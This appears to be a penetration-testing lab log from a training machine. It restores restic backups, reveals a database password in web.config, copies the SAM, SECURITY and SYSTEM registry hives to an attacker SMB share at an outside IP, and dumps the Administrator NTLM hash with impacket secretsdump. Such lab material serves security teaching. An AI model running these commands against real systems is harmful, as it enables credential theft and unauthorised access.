 restic.exe -r E:\restic snapshots

PS C:\Users\jeff> restic.exe -r E:\restic snapshots
enter password for repository:
wrong password or no key found. Try again
enter password for repository:
repository 2e40703c opened successfully, password is correct
found 1 old cache directories in C:\Users\jeff\AppData\Local\restic, run `restic cache --cleanup` to remove them
ID        Time                 Host             Tags        Paths
--------------------------------------------------------------------------------------
02d25030  2022-08-09 05:58:15  PILLAGING-WIN01              C:\xampp\htdocs\webapp
24504d3d  2022-08-09 11:24:43  PILLAGING-WIN01              C:\Windows\System32\config
7b9cabc8  2022-08-09 11:25:47  PILLAGING-WIN01              C:\Windows\System32\config
4e7bd0cd  2022-08-09 11:55:33  PILLAGING-WIN01              C:\xampp\htdocs\webapp_old
b2f5caa0  2022-08-17 11:43:56  PILLAGING-WIN01              C:\Windows\System32\config
--------------------------------------------------------------------------------------

PS C:\Users\jeff> restic.exe -r E:\restic restore 02d25030 --target C:\Restore
enter password for repository:
repository 2e40703c opened successfully, password is correct
found 1 old cache directories in C:\Users\jeff\AppData\Local\restic, run `restic cache --cleanup` to remove them
restoring <Snapshot 02d25030 of [C:\xampp\htdocs\webapp] at 2022-08-09 05:58:15.161629 -0700 PDT by PILLAGING-WIN01\lab_admin@PILLAGING-WIN01> to C:\Restore

PS C:\Restore\c\xampp\htdocs\webapp> type web.config
web.config
# Change Username and Password
<connectionStrings>
    <add name="DefaultConnection" connectionString="server=localhost;database=Injection;User Id=Administrator;Password='NewSuperPa$$w0rd!'" providerName="System.Data.SqlClient" />
</connectionStrings>

restic.exe -r E:\restic restore b2f5caa0 --target C:\Restore\b2f5caa0

sudo smbserver.py -smb2support share $(pwd)

copy C:\Restore\b2f5caa0\C\Windows\System32\config\SAM \\10.10.15.97\share\
copy C:\Restore\b2f5caa0\C\Windows\System32\config\SECURITY \\10.10.15.97\share\
copy C:\Restore\b2f5caa0\C\Windows\System32\config\SYSTEM \\10.10.15.97\share\


move sam.save \\$PWN_BOX$\CompData
move security.save \\$PWN_BOX$\CompData
move system.save \\$PWN_BOX$\\CompData

locate secretsdump 
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

[*] Target system bootKey: 0x9828e7264dd454a4cae19b10e003858e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bac9dc5b7b4bec1d83e0e9c04b477f26:::
